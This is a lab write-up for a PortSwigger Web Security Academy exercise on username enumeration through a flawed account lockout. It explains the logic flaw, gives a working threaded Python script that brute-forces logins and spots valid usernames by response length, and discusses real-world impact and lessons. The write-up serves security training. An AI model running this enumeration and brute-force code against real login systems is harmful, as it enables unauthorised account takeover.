

# Username enumeration via account lock

**Category:** Web Exploitation — Authentication
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock`


This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

---

## Reconnaissance

- What does the application do? 
    - The website is a blog about several, seemingly to tech related topics. Users can read and leave comments under blog articles.
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - There is an account page with a login, the comments below articles can be consideres input too.
- What happens with normal input?
    - Correct user logins log the user in normally

---

## Analysis


#### Vulnerability

- What exactly is vulnerable and why?
    
The problem here is that the security check comes after the login check, which does not block 'correct' login attempts while the brute-force protection is on.
This goes for the usernames - where correct usernames returning a different response with a different response length makes enumerating easy. As well as for passwords where the brute-force check comes after the login check thus not working at all.

---

## Solution 

### Step 1 - Recon / Looking at responses

Sending a bunch of repeated wrong logins with burp repeater shows no difference in response (only info is: 'Invalid username or password.'). So let's just use intruder to enumerate the username with a sniper attack.
This did nothing, the response again showed no difference. Now I will try with a cluster bomb attack and sending the username and no password 5 times, to see if there is a logout.


---

### Step 2 - Enumeration / Step 3 - Exploit
Because burp intruder is so slow int he community edition I started it and created a python clusterbomb program to solve it faster:
```python
import requests
from threading import Thread


burp_get = """POST /login HTTP/2
Host: 0adf005b0498abb380bc8a1400ea0076.web-security-academy.net
Cookie: session=BVoZQLJKyHv3IM8qMyRT0tcVtvAl6Kyw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: https://0adf005b0498abb380bc8a1400ea0076.web-security-academy.net
Referer: https://0adf005b0498abb380bc8a1400ea0076.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=admin&password=123456789
"""

url = """https://0adf005b0498abb380bc8a1400ea0076.web-security-academy.net/login"""
burp_get = burp_get.strip()

with open("authentication_lab_usernames.txt") as f1, open("authentication_lab_passwords.txt") as f2:
   
    usernames = [line.strip() for line in f1]
    passwords = [line.strip() for line in f2]


def try_username(username):
    login = f"username={username}&password=test"
    r1 = requests.post(url,data=login)
    r2 = requests.post(url,data=login)
    r3 = requests.post(url,data=login)
    r4 = requests.post(url,data=login)
    r5 = requests.post(url,data=login)
    r6 = requests.post(url,data=login)
   
    if len(r1.text) != 3236:
        print(f"response length: {len(r1.text)} for user: {username}")

threads = []
for username in usernames:
    t = Thread(target=try_username, args=(username,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

The length 3236 is not arbitrary. I simply ran a test and the usual response with 'test' as a password returns that length.
Thus the correct username is: 'att'
Now the next step is to bypass the brute-force protection.
The 'X-Forwarded-For' trick does not work here unfortunately.
One way is to just bruteforce and go slowly to not run into the timeout.
The lab talked about a misconfiguration. What if the misconfiguration for the brute-force protection is the same as for the usernames?
That would mean there is a different response for a correct login - maybe inputting the correct input even when locked out still works?
And that is actually the case, the length is different for the correct password. 

Now after logging in the lab is solved


---
## Real World Impact

The security measures in place are actually harmful here. The way it is implemented an attacker can easily find correct usernames and then bruteforce the actual password. Normally you'd need to try every combination of user and password in the hopes of finding something. On top of that it is a security measure so it might just be used to check the box "brute-force protection in place". And on top of that it does not even stop bruteforcing, since the check happens after the check that confirms a correct login, so if the attacker is logged out and then guesses the correct password he is still in - making the protection basically do nothing but harm.  


---
## Learnings

- threads help a lot when using python for bruteforcing
- always try to think of ways that a misconfiguration can happen. In this case the lock out just worked on "wrong" inputs, which is basically provides no protection at all.
- response length is again an easy indicator to find the right responses to look at
- same problem as with lab 4 the security check happens after the "is this login successful check" - security checks should always happen first. If this was implemented with a deny by default mindset it would not have happened